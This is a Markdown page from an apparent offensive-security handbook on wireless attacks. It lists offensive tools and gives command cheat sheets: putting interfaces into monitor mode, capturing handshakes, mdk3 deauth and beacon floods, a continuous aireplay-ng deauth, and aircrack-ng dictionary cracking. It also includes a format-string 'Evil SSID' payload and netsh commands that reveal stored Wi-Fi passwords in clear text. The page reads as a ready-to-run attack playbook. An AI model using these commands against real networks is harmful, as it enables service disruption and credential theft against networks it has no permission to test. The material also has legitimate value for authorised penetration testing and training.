 # Wireless Attacks

- [Resources](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Resources)

## Table of Contents

- [Aircrack-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Aircrack-ng)
- [airodump-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airodump-ng)
- [airmon-ng](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#airmon-ng)
- [ALFA AWUS036ACH](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#ALFA-AWUS036ACH)
- [Apple Wi-Fi Evil SSID](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Apple-Wi-Fi-Evil-SSID)
- [mdk3](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#mdk3)
- [Microsoft Windows](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Microsoft-Windows)
- [Wi-Fi Example Attack](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/06_wireless_attacks.md#Wi-Fi-Example-Attack)

## Resources

| Name | Description | URL |
| --- | --- | --- |
| Aircrack-ng | WiFi security auditing tools suite | https://github.com/aircrack-ng/aircrack-ng |
| airgeddon | This is a multi-use bash script for Linux systems to audit wireless networks. | https://github.com/v1s1t0r1sh3r3/airgeddon |
| EAPHammer | EAPHammer is a toolkit for performing targeted evil twin attacks against WPA2-Enterprise networks. | https://github.com/s0lst1c3/eaphammer |
| Flipper | Playground (and dump) of stuff I make or modify for the Flipper Zero | https://github.com/UberGuidoZ/Flipper |
| flipperzero-firmware | Flipper Zero Code-Grabber Firmware | https://github.com/Eng1n33r/flipperzero-firmware |
| flipperzero-firmware-wPlugins | Flipper Zero FW [ROGUEMASTER] | https://github.com/RogueMaster/flipperzero-firmware-wPlugins |
| JackIt | JackIt - Exploit Code for Mousejack Resources | https://github.com/insecurityofthings/jackit |
| Pwnagotchi | (⌐■_■) - Deep Reinforcement Learning instrumenting bettercap for WiFi pwning. | https://github.com/evilsocket/pwnagotchi |
| WEF | A fully offensive framework to the 802.11 networks and protocols with different types of attacks for WPA/WPA2 and WEP, automated hash cracking, bluetooth hacking and much more. | https://github.com/D3Ext/WEF |
| Wifite | This repo is a complete re-write of wifite, a Python script for auditing wireless networks. | https://github.com/derv82/wifite2 |

## Aircrack-ng

```c
$ tshark -F pcap -r <FILE>.pcapng -w <FILE>.pcap
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt <FILE>.pcap
```

## airodump-ng

```c
$ sudo airodump-ng <INTERFACE>mon
```

## airmon-ng

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start <INTERFACE>
$ sudo airmon-ng stop <INTERFACE>
```

## ALFA AWUS036ACH

```c
$ sudo apt-get install realtek-rtl88xxau-dkms
```

## Apple Wi-Fi Evil SSID

```c
%p%s%s%s%s%n
```

## mdk3

> https://github.com/charlesxsh/mdk3-master

```c
$ sudo mdk3 <INTERFACE>mon d -c <CHANNEL_NUMBER>
$ sudo mdk3 <INTERFACE>mon d <BSSID>
$ sudo mdk3 <INTERFACE>mon b <BSSID>
```

## Microsoft Windows

### Wireless Profiles

#### List Profiles

```c
PS C:\> netsh wlan show profiles
```

#### Extract Passwords

```c
PS C:\> netsh wlan show profile name="<PROFILE>" key=clear
```

#### Export Profiles

```c
PS C:\> netsh wlan export profile name="<PROFILE>" folder=C:\temp
```

## Wi-Fi Example Attack

```c
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -w <FILE> -c <CHANNEL> --bssid <BSSID> wlan0mon
```

```c
$ sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon
```

```c
$ aircrack-ng <FILE>.cap -w /usr/share/wordlists/rockyou.txt
```

```c
$ sudo airmon-ng stop wlan0mon
```
